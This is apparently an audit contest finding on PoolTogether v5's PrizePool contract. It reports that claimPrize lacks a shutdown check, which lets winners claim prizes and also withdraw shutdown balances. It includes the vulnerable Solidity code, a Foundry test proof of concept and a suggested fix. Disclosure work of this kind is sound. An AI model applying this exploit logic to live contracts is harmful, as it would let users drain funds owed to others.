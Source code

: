 Real Ceramic Koala

high

# User's might be able to claim their prizes even after shutdown

## Summary
User's might be able to claim their prizes even after shutdown due to `lastObservationAt` and draw period difference

## Vulnerability Detail
There is no shutdown check kept on the `claimPrize` function. Hence user's can calim their prizes even after the pool has been shutdown if the draw has not been finalized

[link](https://github.com/sherlock-audit/2024-05-pooltogether/blob/1aa1b8c028b659585e4c7a6b9b652fb075f86db3/pt-v5-prize-pool/src/PrizePool.sol#L517-L524)
```solidity
  function claimPrize(
    address _winner,
    uint8 _tier,
    uint32 _prizeIndex,
    address _prizeRecipient,
    uint96 _claimReward,
    address _claimRewardRecipient
  ) external returns (uint256) {
    /// @dev Claims cannot occur after a draw has been finalized (1 period after a draw closes). This prevents
    /// the reserve from changing while the following draw is being awarded.
    uint24 lastAwardedDrawId_ = _lastAwardedDrawId;
    if (isDrawFinalized(lastAwardedDrawId_)) {
      revert ClaimPeriodExpired();
    }
```

The remaining balance after a shutdown is supposed to be allocated to user's based on their (vault prize contribution + twab contribution) via the `withdrawShutdownBalance` and is not supposed to be based on a random number ie. via `claimPrize`

[link](https://github.com/sherlock-audit/2024-05-pooltogether/blob/1aa1b8c028b659585e4c7a6b9b652fb075f86db3/pt-v5-prize-pool/src/PrizePool.sol#L938-L941)
```solidity
  function withdrawShutdownBalance(address _vault, address _recipient) external returns (uint256) {
    if (!isShutdown()) {
      revert PrizePoolNotShutdown();
    }
```

In case the draw period is different from the TWAB's period length, it is not necessary that the shutdown due to the `lastObservationAt` occurs at the end of a draw. In such a case, it will allow user's who are winners of the draw to claim their prizes and also withdraw their share of the `shutdown balance` hence stealing funds from others 

### POC
```diff
diff --git a/pt-v5-prize-pool/test/PrizePool.t.sol b/pt-v5-prize-pool/test/PrizePool.t.sol
index 99fe6b5..5ce7ad6 100644
--- a/pt-v5-prize-pool/test/PrizePool.t.sol
+++ b/pt-v5-prize-pool/test/PrizePool.t.sol
@@ -75,6 +75,7 @@ contract PrizePoolTest is Test {
   uint256 RESERVE_SHARES = 10;
 
   uint24 grandPrizePeriodDraws = 365;
+  uint periodLength;
   uint48 drawPeriodSeconds = 1 days;
   uint24 drawTimeout; // = grandPrizePeriodDraws * drawPeriodSeconds; // 1000 days;
   uint48 firstDrawOpensAt;
@@ -112,27 +113,26 @@ contract PrizePoolTest is Test {
 
   ConstructorParams params;
 
-  function setUp() public {
-    drawTimeout = 30; //grandPrizePeriodDraws;
-    vm.warp(startTimestamp);
+    function setUp() public {
+      // at end drawPeriod == 2 day, and period length in twab = 1 day
 
+    periodLength = 1 days;
+    drawPeriodSeconds = 2 days;
+    
+    // the last draw should be ending at lastObservation timestamp + 1 day
+    startTimestamp = 1000 days;
+    firstDrawOpensAt =  uint48((type(uint32).max / periodLength ) % 2 == 0 ? startTimestamp + 1 days : startTimestamp + 2 days);
+
+    
+
+    drawTimeout = 25854; // to avoid shutdown by drawTimeout when warping
+
+    vm.warp(startTimestamp + 1);
     prizeToken = new ERC20Mintable("PoolTogether POOL token", "POOL");
-    twabController = new TwabController(uint32(drawPeriodSeconds), uint32(startTimestamp - 1 days));
+    twabController = new TwabController(uint32(periodLength), uint32(startTimestamp));
 
-    firstDrawOpensAt = uint48(startTimestamp + 1 days); // set draw start 1 day into future
     initialNumberOfTiers = MINIMUM_NUMBER_OF_TIERS;
 
-    vm.mockCall(
-      address(twabController),
-      abi.encodeCall(twabController.PERIOD_OFFSET, ()),
-      abi.encode(firstDrawOpensAt)
-    );
-    vm.mockCall(
-      address(twabController),
-      abi.encodeCall(twabController.PERIOD_LENGTH, ()),
-      abi.encode(drawPeriodSeconds)
-    );
-
     drawManager = address(this);
     vault = address(this);
     vault2 = address(0x1234);
@@ -142,7 +142,7 @@ contract PrizePoolTest is Test {
       twabController,
       drawManager,
       tierLiquidityUtilizationRate,
-      drawPeriodSeconds,
+      uint48(drawPeriodSeconds),
       firstDrawOpensAt,
       grandPrizePeriodDraws,
       initialNumberOfTiers, // minimum number of tiers
@@ -155,6 +155,51 @@ contract PrizePoolTest is Test {
     prizePool = newPrizePool();
   }
 
+  function testHash_CanClaimPrizeAfterShutdown() public {
+    uint secondLastDrawStart = startTimestamp + (type(uint32).max / periodLength ) * periodLength - 3 days;
+
+    vm.warp(secondLastDrawStart + 1);
+    address user1 = address(100);
+    //address user2 = address(200);
+
+    // mint tokens to the user in twab
+    twabController.mint(user1, 10e18);
+    //twabController.mint(user2, 5e18);
+
+    // contribute prize tokens to the vault
+    prizeToken.mint(address(prizePool),100e18);
+    prizePool.contributePrizeTokens(address(this),100e18);
+
+    // move to the next draw and award this one
+    vm.warp(secondLastDrawStart + drawPeriodSeconds + 1);
+    prizePool.awardDraw(100);
+    uint drawId = prizePool.getOpenDrawId();
+
+    //currently not shutdown. but shutdown will occur in the middle of this draw allowing both prize claiming and the shutdown withdrawal
+    uint shutdownTimestamp = prizePool.shutdownAt();
+    assert(shutdownTimestamp == secondLastDrawStart + drawPeriodSeconds + periodLength);
+
+    vm.warp(shutdownTimestamp);
+
+    // call to store the shutdown data before the prize is claimed
+    prizePool.shutdownBalanceOf(address(this),user1);
+
+    /**
+     * address _winner,
+    uint8 _tier,
+    uint32 _prizeIndex,
+    address _prizeRecipient,
+    uint96 _claimReward,
+    address _claimRewardRecipient
+     */
+    prizePool.claimPrize(user1,1,0,user1,0,address(0));
+
+    // no withdrawing shutdown balance will revert due to the amount being withdrawn earlier via the claimPrize function
+    vm.prank(user1);
+    vm.expectRevert();
+    prizePool.withdrawShutdownBalance(address(this),user1);
+  }
+
   function testConstructor() public {
     assertEq(prizePool.firstDrawOpensAt(), firstDrawOpensAt);
     assertEq(prizePool.drawPeriodSeconds(), drawPeriodSeconds);

```

## Impact
User's can double claim assets when vault shutdowns eventually

## Code Snippet
https://github.com/sherlock-audit/2024-05-pooltogether/blob/1aa1b8c028b659585e4c7a6b9b652fb075f86db3/pt-v5-prize-pool/src/PrizePool.sol#L517-L524

## Tool used
Manual Review

## Recommendation
Add a notShutdown modifier to the claimPrize function